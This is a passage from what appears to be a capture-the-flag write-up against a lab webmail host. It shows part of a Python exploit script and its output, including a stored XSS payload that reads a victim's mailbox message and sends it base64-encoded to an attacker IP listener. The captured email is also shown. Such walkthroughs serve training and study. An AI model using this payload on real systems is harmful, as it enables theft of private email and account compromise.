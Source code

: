 ```python
    server_thread.start()

    try:
        send_post(args.target, post_data, headers)
        # keep running until Ctrl+C
        logging.info("Press Ctrl+C to stop the listener and exit.")
        while True:
            stop_evt.wait(timeout=1)
    except KeyboardInterrupt:
        logging.info("Keyboard interrupt received, shutting down...")
        stop_evt.set()
        # give server thread a moment to exit gracefully
        server_thread.join(timeout=2)
        logging.info("Done.")

```

U have to change  `Cookie': 'session=` and ur `IP-Adress`

```bash
python3 xss_mail.py
<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch('/?_task=mail&_action=show&_uid=3&_mbox=INBOX&_extwin=1').then(r=>r.text()).then(t=>fetch(`http://10.10.14.11:7777/c=${btoa(t)}`)) foo=bar">Foo</body>
[+] Listening on port 7777 for exfiltrated data...
[+] POST Request Sent! Status Code: 200
[+] Extracted Message Body Content:

Hey Bryce,

The Analytics dashboard is now live. While it's still in development and limited in functionality, it should provide a good starting point for gathering metadata on the users currently using our service.

You can access the dashboard at dev-a3f1-01.drip.htb. Please note that you'll need to reset your password before logging in.

If you encounter any issues or have feedback, let me know so I can address them promptly.

Thanks
```

we got new host `dev-a3f1-01.drip.htb`  and lets check on it!!
